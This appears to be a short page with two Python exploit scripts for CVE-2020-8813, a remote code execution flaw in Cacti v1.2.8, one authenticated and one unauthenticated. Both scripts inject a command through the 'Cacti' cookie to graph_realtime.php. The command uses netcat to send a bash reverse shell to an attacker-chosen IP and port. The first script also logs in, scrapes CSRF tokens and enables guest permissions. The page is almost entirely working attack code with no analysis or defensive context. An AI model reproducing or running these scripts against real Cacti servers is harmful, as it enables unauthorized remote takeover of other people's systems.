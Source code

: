 EXP1
----

需要認證

    #!/usr/bin/python3

    # Exploit Title: Cacti v1.2.8 Remote Code Execution
    # Date: 03/02/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://cacti.net/
    # Version: v1.2.8
    # Tested on: CentOS 7.3 / PHP 7.1.33

    import requests
    import sys
    import warnings
    from bs4 import BeautifulSoup
    from urllib.parse import quote

    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')


    if len(sys.argv) != 6:
        print("[~] Usage : ./Cacti-exploit.py url username password ip port")
        exit()

    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]

    def login(token):
        login_info = {
        "login_username": username,
        "login_password": password,
        "action": "login",
        "__csrf_magic": token
        }
        login_request = request.post(url+"/index.php", login_info)
        login_text = login_request.text
        if "Invalid User Name/Password Please Retype" in login_text:
            return False
        else:
            return True

    def enable_guest(token):
        request_info = {
        "id": "3",
        "section25": "on",
        "section7": "on",
        "tab": "realms",
        "save_component_realm_perms": 1,
        "action": "save",
        "__csrf_magic": token
        }
        enable_request = request.post(url+"/user_admin.php?header=false", request_info)
        if enable_request:
            return True
        else:
            return False

    def send_exploit():
        payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
        cookies = {'Cacti': quote(payload)}
        requests.get(url+"/graph_realtime.php?action=init", cookies=cookies)

    request = requests.session()
    print("[+]Retrieving login CSRF token")
    page = request.get(url+"/index.php")
    html_content = page.text
    soup = BeautifulSoup(html_content, "html5lib")
    token = soup.findAll('input')[0].get("value")
    if token:
        print("[+]Token Found : %s" % token)
        print("[+]Sending creds ..")
        login_status = login(token)
        if login_status:
            print("[+]Successfully LoggedIn")
            print("[+]Retrieving CSRF token ..")
            page = request.get(url+"/user_admin.php?action=user_edit&id=3&tab=realms")
            html_content = page.text
            soup = BeautifulSoup(html_content, "html5lib")
            token = soup.findAll('input')[1].get("value")
            if token:
                print("[+]Making some noise ..")
                guest_realtime = enable_guest(token)
                if guest_realtime:
                    print("[+]Sending malicous request, check your nc ;)")
                    send_exploit()
                else:
                    print("[-]Error while activating the malicous account")

            else:
                print("[-] Unable to retrieve CSRF token from admin page!")
                exit()

        else:
            print("[-]Cannot Login!")
    else:
        print("[-] Unable to retrieve CSRF token!")
        exit()

EXP2
----

開啟來賓實時圖查看權限則不需要認證

    #!/usr/bin/python3

    # Exploit Title: Cacti v1.2.8 Unauthenticated Remote Code Execution
    # Date: 03/02/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://cacti.net/
    # Version: v1.2.8
    # Tested on: CentOS 7.3 / PHP 7.1.33

    import requests
    import sys
    import warnings
    from bs4 import BeautifulSoup
    from urllib.parse import quote

    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')


    if len(sys.argv) != 4:
        print("[~] Usage : ./Cacti-exploit.py url ip port")
        exit()

    url = sys.argv[1]
    ip = sys.argv[2]
    port = sys.argv[3]

    def send_exploit(url):
        payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
        cookies = {'Cacti': quote(payload)}
        path = url+"/graph_realtime.php?action=init"
        req = requests.get(path)
        if req.status_code == 200 and "poller_realtime.php" in req.text:
            print("[+] File Found and Guest is enabled!")
            print("[+] Sending malicous request, check your nc ;)")
            requests.get(path, cookies=cookies)
        else:
            print("[+] Error while requesting the file!")

    send_exploit(url)